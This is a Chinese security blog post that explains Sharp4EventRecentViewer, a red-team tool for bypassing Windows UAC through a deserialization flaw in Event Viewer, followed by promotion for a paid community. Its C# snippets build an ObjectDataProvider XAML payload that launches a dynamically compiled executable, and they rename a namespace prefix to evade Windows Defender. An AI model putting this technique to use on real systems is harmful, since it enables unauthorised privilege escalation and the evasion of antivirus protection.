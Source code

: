 #  .NET 一款事件查看器反序列化漏洞绕过UAC的工具   
原创 专攻.NET安全的  dotNet安全矩阵   2024-10-11 08:20  
  
01  
  
阅读须知  
  
此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他方面  
  
  
  
02  
  
基本介绍  
  
  
Sharp4EventRecentViewer是一款红队常用的UAC绕过工具，利用Windows事件查看器的反序列化漏洞，来实现系统命令执行和UAC绕过。本文将详细介绍该工具的使用方式、代码实现，以及其在红队渗透测试中的实际应用。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YicTcktdNcDDGwPjxrgDStKDjowLhXcib4mV8kCxxWF1ks8alZicpYiav3IkHlYsMHmLGIAxos3x2BlCQ/640?wx_fmt=jpeg&from=appmsg "")  
  
03  
  
使用方法  
  
在执行Sharp4EventRecentViewer时，只需提供需要执行的命令行参数。例如：  
  
```
Sharp4EventRecentViewer.exe cmd.exe

```  
  
  
工具会自动生成的恶意载荷文件并写入到事件查看器的RecentViews路径。如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9yu7SvSpU1IzL8SfUebkcXAOI2rdsibctIWdjtK5O9ltw8AZ5skOecV53Hl7hUxbSyutFU9iayuayw/640?wx_fmt=png&from=appmsg "")  
  
然后工具自动化模拟用户打开事件查看器，完成触发反序列化漏洞，启动新的CMD进程命令。如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9yu7SvSpU1IzL8SfUebkcXU1l7TIYcIDakqX1wwkfmdFnHkgTRmKQCPKCrOe5ibG2cwIuGibZMUpuQ/640?wx_fmt=png&from=appmsg "")  
  
04  
  
原理解析  
  
  
以下是工具的关键代码部分解析，工具首先检查事件查看器的RecentViews文件夹是否存在，并确定该路径为目标路径。  
  
```
string path = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), "Microsoft", "Event Viewer", "RecentViews");Console.WriteLine("Checking if the path \"{0}\" exists...", path);
```  
  
  
通过Environment.GetFolderPath方法获取用户的本地应用数据文件夹，再结合Path.Combine方法确定Event Viewer\RecentViews的完整路径。  
  
随后，使用C#代码动态编译一个恶意的可执行文件，其中包含了CreateProcess API调用，用于执行系统命令：  
  
```
CSharpCodeProvider codeProvider = new CSharpCodeProvider();CompilerParameters parameters = new CompilerParameters();parameters.GenerateExecutable = true;parameters.OutputAssembly = Path.Combine(Path.GetTempPath(), "StartInSelectedDesktop.exe");string sourceCode = "..."; // 恶意代码（包含CreateProcess调用）codeProvider.CompileAssemblyFromSource(parameters, new string[] { sourceCode });
```  
  
  
此处，利用动态编译功能允许生成随时变更的恶意载荷，提高了工具的灵活性和隐蔽性。之后  
，工具生成了ObjectDataProvider对象，并将其序列化为XAML字符串  
  
```
ObjectDataProvider provider = new ObjectDataProvider{    MethodName = "Start",    ObjectInstance = new Process { StartInfo = new ProcessStartInfo { FileName = outputAssembly } }};StringBuilder sb = new StringBuilder();XmlWriterSettings settings = new XmlWriterSettings { Indent = true };using (XmlWriter writer = XmlWriter.Create(sb, settings)){    XamlWriter.Save(provider, writer);}string xaml = sb.ToString();xaml = xaml.Replace("xmlns:sd", "xmlns:sf").Replace("<sd:", "<sf:").Replace("</sd:", "</sf:");
```  
  
  
此处，ObjectDataProvider类被用来封装恶意Process对象，将Start方法作为序列化执行目标。通过对XAML文件内容中的sd命名空间进行修改，进一步绕过Windows Defender的检测。当事件查看器加载该文件时，会通过反序列化漏洞执行恶意命令，实现UAC绕过，执行payload。  
  
综上，  
Sharp4EventRecentViewer充分利用了Windows事件查看器的反序列化漏洞，具备强大的UAC绕过能力。在红队渗透测试中，该工具因其高度隐蔽性和无文件特性而受到广泛应用。  
工具已经打包在星球，感兴趣的朋友可以加入自取。  
  
  
05  
  
推荐阅读  
  
从漏洞分析到安全攻防，我们涵盖了.NET安全  
各个关键方面，为您呈现最新、最全面的.NET安全知识，下面是公众号发布的精华文章集合，推荐大家阅读！  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247493952&idx=4&sn=db68011fb075c1d02268811163646b53&chksm=fa5947adcd2ecebbb1ca6659f289a5e344e37d1136fe0bd9272b5578e4c71bb19bb250e934d3&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247495167&idx=1&sn=9280c55fdc7c9146e549be470cf9f120&chksm=fa594312cd2eca04bfe8fd1fd3890b389d9c700b9b69d897f919addac399bab4f4d2e55f6b4f&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247488762&idx=1&sn=a5710927a6ba09b5c83adf616e2b12ae&chksm=fa5aba17cd2d330119d1ab2ce4b3a434274f0adf96729dbf8f04bef16c389565fc144f84d341&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490722&idx=2&sn=c9807daa5548e139a0c67303cb26882a&chksm=fa5ab24fcd2d3b59a85be03e69c655ffd644e8458bc2ec3f572da4b40b43e5003fda756f35b4&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490703&idx=2&sn=e7db1ff662e5b41d9a1806fbdf33e204&chksm=fa5ab262cd2d3b7470f029b9a07d1dd3611e63be910b01a601144efe7d84b5f016f488a354cf&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247490700&idx=2&sn=e8a865ada7c743e77fb9e953c5da74b1&chksm=fa5ab261cd2d3b7736387eddfc8524a378a1604552d0c9b55476646f9e8275f48818aab8acad&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247488736&idx=2&sn=d24aaa297c51eb620ccdf67af513086d&chksm=fa5aba0dcd2d331bbb22f3f5657199d718c90efed42fcb9cb67ec23d342f887c117e4858f1cb&scene=21#wechat_redirect)  
  
  
06  
  
欢迎加入.NET安全星球  
  
为了更好地应对基于.NET技术栈的风险识别和未知威胁，dotNet安全矩阵星球从创建以来一直聚焦于.NET领域的安全攻防技术，定位于高质量安全攻防星球社区，也得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展。  
 星球门票  
后期价格随着内容和质量的不断沉淀会适当提高，因此越早加入越好！  
   
  
  
  
  
      
目前dot.Net安全矩阵星球已成为中国.NET安全领域最知名、最活跃的技术知识库之一，从.NET Framework到.NET Core，从Web应用到PC端软件应用，无论您是初学者还是经验丰富的开发人员，都能在这里找到对应的安全指南和最佳实践。  
  
星球汇聚了各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布很多高质量的.NET安全资源，可以说市面上很少见，都是干货。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibzerwUbGOupPoJgYlZNMo1gg58eGoicPibjMBKkEo1zOia6zOyeupYasZZ9DTFvJVvzJQTEuhKrvTsA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8DlZsGiaRRGghficKFQt58Ueoynsb0my3uzMAb7VwM5bgtnb4nbl4c9xdEjGraUXic6pO0p38xmWiaRQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibQ6VpnKYXPqfmHnyJHzHxOc2SogKzZ16SD7dpzF3v81kia4ZAx5QU5ibnNibEo8kZZSJgrficz4Ckxwg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
星球文化始终认为授人以鱼不如授人以渔！  
加入星球后可以跟星主和嘉宾们一对一提问交流，20+个专题栏目涵盖了点、线、面、体等知识面，助力师傅们快速成长！其中主题包括  
.NET Tricks、漏洞分析、内存马、代码审计、预编译、反序列化、webshell免杀、命令执行、C#工具库  
等等。![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YiccvW0LwqSx3grm4bgM0fz01qCxrYGBR94wibZ7sk1zIO9DzCgviab9vmUic8qmvynXhSM8LxFhGG97w/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
    我们倾力打造专刊、视频等配套学习资源，循序渐进的方式引导加深安全攻防技术提高以及岗位内推等等服务。![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9XgicSeCfnDO0KyvDNdCZhG3pTSWHRekG0Wrp0FXyHO1mz9ia5uiaICjCmg5jIzx4ERLU8MjXWVSkCw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
我们还有一个会员专属的内部星球陪伴群，加入的成员可以通过在群里提出问题或参与论的方式来与其他成员交流思想和经验。  
此外还可以通过星球或者微信群私聊向我们进行提问，以获取帮助迅速解决问题。  
  
为了助力大家在  
2024国家级hvv  
演练中脱颖而出，我们  
特别整理出了一套涵盖dotNet安全矩阵星球的  
八大.NET相关方向工具集  
。  
  
```
.NET 免杀WebShell
.NET 反序列化漏洞
.NET 安全防御绕过
.NET 内网信息收集
.NET 本地权限提升
.NET 内网横向移动
.NET 目标权限维持
.NET 数据外发传输

```  
  
  
这些阶段所涉及的工具集不仅代表了当前.NET安全领域的最前沿技术，更是每一位网络安全爱好者不可或缺的实战利器。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9ZQNibdZiazXl9zhxh3wB9n5LXcwJqbvQywJQLsckcGGV6NNWLITK1VkDV2CPeahvyUbPNPCRATEmA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
